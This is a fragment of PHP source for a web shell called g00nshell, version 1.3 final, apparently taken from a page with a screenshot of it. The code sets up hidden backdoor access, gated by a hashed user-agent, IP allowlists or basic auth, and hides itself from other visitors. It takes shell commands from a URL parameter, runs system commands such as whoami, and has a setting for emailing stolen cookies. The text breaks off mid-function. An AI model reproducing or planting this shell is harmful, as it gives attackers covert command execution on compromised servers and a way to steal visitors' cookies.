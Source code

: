 ###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
*/
// Configuration
$auth = 0;
$uakey = "b5c3d0b28619de70bf5588505f4061f2"; // MD5 encoded user-agent
$IP = array("127.0.0.2","127.0.0.1"); // IP Addresses allowed to access shell
$email = ""; // E-mail address where cookies will be sent
$user  = "af1035a85447f5aa9d21570d884b723a"; // MD5 encoded User
$pass = "47e331d2b8d07465515c50cb0fad1e5a"; // MD5 encoded Password
// Global Variables
$version = "1.3 final";
$self = $_SERVER['PHP_SELF'];
$soft = $_SERVER["SERVER_SOFTWARE"];
$servinf = split("[:]", getenv('HTTP_HOST'));
$servip = $servinf[0];
$servport = $servinf[1];
$uname = php_uname();
$curuser = @exec('whoami');
$cmd = $_GET['cmd'];
$act = $_GET['act'];
$cmd = $_GET['cmd'];
$cookie = $_GET['cookie'];
$f = $_GET['f'];
$curdir = cleandir(getcwd());
if(!$dir){$dir = $_GET['dir'];}
elseif($dir && $_SESSION['dir']){$dir = $_SESSION['dir'];}
elseif($dir && $_SESSION['dir']){$dir = $curdir;}
if($dir && $dir != "nullz"){$dir = cleandir($dir);}
$contents = $_POST['contents'];
$gf = $_POST['gf'];
$img = $_GET['img'];
session_start();
@set_time_limit(5);
switch($auth){ // Authentication switcher
  case 0: break;
  case 1: if(md5($_SERVER['HTTP_USER_AGENT']) != $uakey){hide();} break;
  case 2: if(!in_array($_SERVER['REMOTE_ADDR'],$IP)){hide();} break;
  case 3: if(!$_SERVER["PHP_AUTH_USER"]){userauth();} break;
}
    
function userauth(){ // Basic authentication function
  global $user, $pass;
  header("WWW-Authenticate: Basic realm='Secure Area'");
  if(md5($_SERVER["PHP_AUTH_USER"]) != $user || md5($_SERVER["PHP_AUTH_PW"] != $pass)){
    hide();

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/01/g00nshell.png